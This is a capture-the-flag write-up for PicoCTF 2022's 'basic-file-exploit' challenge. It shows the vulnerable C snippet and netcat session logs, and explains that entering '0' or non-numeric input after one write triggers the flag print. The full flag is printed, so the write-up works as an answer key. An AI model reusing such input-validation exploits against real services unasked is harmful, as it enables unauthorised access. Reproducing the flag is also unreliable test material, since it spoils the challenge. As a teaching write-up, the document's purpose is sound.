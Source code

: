 # PicoCTF 2022
## basic-file-exploit

Tags: Binary Exploitation
AUTHOR: WILL HONG

**Description**: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:

``$ nc saturn.picoctf.net 55825``

The program's source code with the flag redacted can be downloaded here [program-redacted.c](basic-file-exploit/program-redacted.c).

## Solution / Explanation

Analyzing the source code provied in the challenge, the lines 143 to 147 we can identify the following code:

```
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
I'm not really an expert in C 🤷‍♂️, but it seems to tell me if ``entry_number`` is ``0``, it will print `puts()` me the flag. 

Searching the function ``strtol()`` on Google didn't give me much. Basically, this function covert the string to a long integer (?). 

So, I connected to the server and I tried to play around with the conditions: 

- If I insert "1" in the prompt, I can enter a new phrase and store it in the server, then I can press "2" and I'm able to read what I stored previously. 
- I noticed that the option "2" always returns "Read successfuly" with at least ONE stored result.

**Output:**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Oi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
52
52

Read successful, would you like to do anything else?
```

- If I start with the option 2, the server returns me "No data yet" and I can't retrieve anything.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Please put in a valid number
2
2
No data yet
```

- If I insert negative or big numbers, asks me for put valid numbers, but when I did that, it returns me "Maybe breaking the boundaries elsewhere will be helpful". That's the lines 188 to 191 in the source code ``program-redacted.c``

```
Please put in a valid number
1000
1000
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
-200
-200
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
```

- So I tried giving different inputs after insert one valid entry and got the flag as result. It also worked putting "0" as the input to echo the phrase in the database.

**asdf as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdf
asdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**0 as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

---
Daniel Reis (@danielxreis) - Cybersecurity Analyst